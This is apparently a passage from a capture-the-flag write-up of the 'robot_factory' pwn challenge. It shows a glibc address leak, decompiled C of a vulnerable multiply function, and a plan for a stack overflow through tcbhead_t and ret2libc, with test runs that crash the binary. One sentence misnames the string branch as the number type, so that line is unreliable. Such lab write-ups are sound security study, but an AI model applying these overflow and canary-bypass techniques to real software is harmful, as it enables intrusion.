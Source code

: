  ```bash
[+] leak : b'\x0b\xd0k?\xc5\x7f'
[+] glibc base address : 0x7fc53f623000
[*] Stopped process '/root/htb_pwn_robot_factory/robot_factory' (pid 3789)
```

## multiply_func (tcbhead_t overflow and ret2libc)

```c
__int64 __fastcall multiply_func(robot *robot) {
  __int64 tmp; // rax
  __int64 i; // [rsp+10h] [rbp-10h]
  __int64 str1_length; // [rsp+18h] [rbp-8h]

  tmp = robot->robot_type;
  if ( tmp ) {
    if ( tmp == ROBOT_TYPE_STRING ) {
      memcpy(robot->operation_result, robot->element1, robot->str1_length);
      str1_length = robot->str1_length;

      for ( i = 0LL; ; ++i ) {
        tmp = robot->element2;

        if ( i >= tmp )
          break;

        memcpy((str1_length + robot->operation_result), robot->element1, robot->str1_length);
        str1_length += robot->str1_length;
      }
    }
  } else {
    tmp = robot->operation_result;
    *tmp = robot->element1 * robot->element2;
  }
  return tmp;
}
```

If the `robot->robot_type` is `ROBOT_TYPE_NUMBER`, this function will have the same behavior as `sub_func` or `add_func` but of course with a multiplication.

Else, if the `robot->robot_type` is `ROBOT_TYPE_NUMBER`, the program will multiply our string in `robot->element1` by `robot->element2` (long), always on the stack as we saw before.

We are then not limited to an input of max 512 char, with this function we can write on the stack a total of 256*(2^64 - 1)... When can then try some inputs :
```bash
$ ./robot_factory
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
|                                 |
|  WELCOME TO THE ROBOT FACTORY!  |
|    DAYS WITHOUT AN ACCIDENT:    |
|               0                 |
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
What kind of robot would you like? (n/s) > s
What kind of operation do you want? (a/s/m) > m
Enter string 1: AAAAAAAAAA
Enter size: 100
What kind of robot would you like? (n/s) > *** stack smashing detected ***: terminated
fish: './robot_factory' terminated by signal SIGABRT (Abort)

$ ./robot_factory
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
|                                 |
|  WELCOME TO THE ROBOT FACTORY!  |
|    DAYS WITHOUT AN ACCIDENT:    |
```